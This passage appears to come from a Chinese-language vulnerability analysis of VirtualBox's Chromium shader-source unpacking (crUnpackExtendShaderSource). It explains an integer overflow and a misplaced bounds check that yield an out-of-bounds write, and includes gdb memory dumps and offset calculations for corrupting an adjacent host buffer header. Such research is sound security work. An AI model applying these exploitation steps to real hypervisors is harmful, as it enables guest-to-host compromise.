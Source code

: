     //    cr_unpackDispatch.ShaderSource(shader, count, ppStrings, length ? length : pLocalLength);
        cr_unpackDispatch.ShaderSource(shader, 1, (const char**)ppStrings, 0);

        crFree(ppStrings);
    ```

- 问题

```c
[1] 当count = 1<<32时，malloc(count * sizeof(char*))等价于malloc(0)，因此存在整数溢出
问题，然而由于不会进入for(i=0;i<count;i++)循环，因此不会造成更大的影响；
[2] DATA_POINTER_CHECK(pos_check)会检查pos_check是否在合理范围内，但是每次在[3]处更新
pos_check后，会在下一个iteration才会进行检查，因此最后一个pLocalLength[i]并没有进行检查，
正确的写法应该讲[2]处的检查放在[3]后面。

通过这个问题[2]，我们可以控制传入的数据，使得pLocalLength[count-1]为一个非常大的值，造成越界。
而在[4]处存在一个越界写，将所有\0改为\n。
```

调用流程：

`HGCM_CALL(CR_SHADERSOURCE_EXTEND_OPCODE) ⇒ svCall ⇒ crUnpackExtendShaderSource`

- 调试信息

    ```
    b *($gl+0xc6710)

    gdb-peda$ x/gx $gl+0x3106c0
    0x7fbb0b1946c0 <cr_unpackData>:	0x00007fbaf50848d0
    gdb-peda$ x/20gx 0x00007fbaf50848d0-0x10
    0x7fbaf50848c0:	0x4141414177474c01	0xf700000000000001
    0x7fbaf50848d0:	0x000000f061616161	0x0000000200000000
    0x7fbaf50848e0:	0x0000000100000000	0x414141410000001c
    0x7fbaf50848f0:	0x0000000000000000	0x0000000000000035
    0x7fbaf5084900:	0x0000003000003a37	0x00007fbaf5084930
    0x7fbaf5084910:	0x00007fbaf5084890	0x00007fbaf5084970
    finish
    gdb-peda$ x/20gx 0x00007fbaf50848d0-0x10
    0x7fbaf50848c0:	0x4141414177474c01	0xf700000000000001
    0x7fbaf50848d0:	0x000000f061616161	0x0000000200000000
    0x7fbaf50848e0:	0x0000000000000000	0x414141410000001b
    0x7fbaf50848f0:	0x0a0a0a0a0a0a0a0a	0x0a0a0a0a0a0a0a35
    0x7fbaf5084900:	0x000a0a300a0a3a37	0x00007fbaf5084930
    # 由于0x7fbaf5084908-0x7fbaf50848d0=0x38,pos最开始为20+count*4=0x1c,因此需要0x38-0x1c=0x1c，
    # 而jUpTo = i == count -1 ? pLocalLength[i] - 1 : pLocalLength[i];表明最后一次循环还要有一个-1，
    # 因此第二个长度为0x1c-1+1=0x1c，至此下一个CRVBOXSVCBUFFER_t变成了uiID=0a0a3a37 & uiSize=0x000a0a30
